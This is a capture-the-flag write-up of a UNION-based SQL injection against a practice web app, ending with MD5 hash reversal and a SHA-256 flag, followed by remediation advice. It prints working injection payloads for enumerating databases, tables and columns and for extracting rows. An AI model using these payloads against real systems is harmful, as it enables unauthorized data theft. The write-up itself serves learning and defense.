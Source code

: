 # Breach: Full SQL Enumeration and Flag Reconstruction via Hash Reversal

## Discovery & Exploit

This challenge involved a multi-step SQL injection process starting with a simple condition:

``0=0``

This returned 4 users, one of whom had the names:

``First name: Flag``  
``Surname: GetThe``

We began enumeration using a classic UNION SELECT injection:

**Step 1 – Current Database Name**
``0=0 UNION SELECT database(), null--``  
→ Revealed: `Member_Sql_Injection`

**Step 2 – Table Enumeration**
``0=0 UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema=CHAR(...)--``  
→ Found table: `users`

**Step 3 – Column Enumeration**
``0=0 UNION SELECT column_name, null FROM information_schema.columns WHERE table_name=CHAR(117,...) AND table_schema=CHAR(...)--``  
→ Columns found:  
`user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire`, `countersign`

**Step 4 – Data Extraction**
We then queried the suspected user row with:

``0=0 UNION SELECT first_name, column FROM users--``

This gave us:

- `user_id = 5`
- `first_name = Flag`
- `last_name = GetThe`
- `Commentaire = Decrypt this password -> then lower all the char. Sh256 on it and it's good !`
- `countersign = 5ff9d0165b4f92b14994e5c685cdce28`

**Step 5 – Hash Decoding**

The `countersign` value was an MD5 hash. Using a public hash lookup service:

→ `5ff9d0165b4f92b14994e5c685cdce28` = `FortyTwo`  
→ Lowercase: `fortytwo`  
→ SHA256 of `fortytwo` =  
`10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

**This is our final flag.**

## Vulnerability Details

This vulnerability demonstrates a full chain of **UNION-based SQL injection**, allowing the attacker to:

- Discover the database name
- Enumerate tables and columns
- Extract rows from sensitive tables
- Rebuild hidden secrets through hash decoding

Such attacks are possible when user input is directly injected into SQL statements without proper escaping or parameterization.

References:

- https://owasp.org/www-community/attacks/SQL_Injection
- https://portswigger.net/web-security/sql-injection/union-attacks
- https://md5.gromweb.com/

## Remediation

1. Always use parameterized queries or prepared statements.
2. Do not expose database errors in the frontend.
3. Apply the principle of least privilege on database accounts.
4. Sanitize and validate all user input.
5. Monitor for suspicious queries and implement rate limiting.

---

<table width="100%">
  <tr>
    <td align="left"><a href="../../Breach08_SQLi_UnionExtractFlag/Ressources/writeup.md">← Previous: Breach08</a></td>
    <td align="center"><a href="../../README.md">↑ Back to README</a></td>
    <td align="right"><a href="../../Breach10_SurveyValueBypass/Ressources/writeup.md">Next: Breach10 →</a></td>
  </tr>
</table>